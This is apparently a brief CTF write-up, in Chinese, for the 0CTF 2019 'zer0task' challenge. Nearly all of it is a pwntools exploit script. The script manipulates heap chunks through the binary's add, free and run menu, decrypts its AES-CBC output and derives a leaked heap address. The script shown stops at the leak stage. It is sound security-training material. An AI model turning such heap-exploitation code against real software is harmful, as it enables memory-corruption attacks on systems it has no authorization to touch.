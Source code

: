# aes_cbc
这个解密之前做过幸亏那次把脚本留下来了这次是直接拿来改一改用的原脚本地址
`https://github.com/n132/Watermalon/tree/master/Script/aes_cbc`
by the way ... `http://aes.online-domain-tools.com/`
# Exp
```python
from pwn import *
from Crypto.Cipher import AES
BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]

def DE(text):
	BS = AES.block_size  
	mode = AES.MODE_CBC
	pad = lambda s: s + (BS-len(s))*"\x00"
	pad_txt = lambda s: s + (BS - len(s) % BS) * '\x00'
	unpad = lambda s : s[0:-ord(s[-1])]
	cryptor=AES.new("A"*0x20,mode, "B"*0x10)
	plain_text  = cryptor.decrypt(text)
    	return u64(plain_text[:8])
def cmd(c):
	p.sendlineafter("Choice: ",str(c))
def add(i,size,data,key="A"*0x20,vi="B"*0x10,tp=1):
	p.sendline("1")
	p.sendlineafter("id : ",str(i))
	p.sendlineafter("2): ",str(tp))
	p.sendafter("Key : ",key.ljust(0x20,'\x00'))
	p.sendafter("IV : ",vi.ljust(0x10,'\x00'))
	p.sendlineafter("Data Size : ",str(size))
	p.sendafter("Data : ",data.ljust(size,'\x00'))
def free(i,):
	cmd(2)
	p.sendlineafter("id : ",str(i))
def go(i):
	cmd(3)
	p.sendlineafter("id : ",str(i))
p=process("./task",env={'LD_PRELOAD':"./libc-2.27.so"})

add(0,0x8,"A")
add(1,0x8,"B")
add(2,0x8,"C")
add(3,0x8,"D")
add(4,0x8,"E")

free(0)
free(1)
go(2)
free(2)
free(3)
free(4)
#add(5,8,"A")
add(5,0xa8,"B")
add(6,0x8,"c")
p.readuntil("Ciphertext: \n")
pd=""
for x in  p.readline().split():
	pd+=chr(int("0x"+x,16))
heap=(DE(pd))-(0x555555758280-0x0000555555757000)
log.info(hex(heap))
```

[1]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/zer0task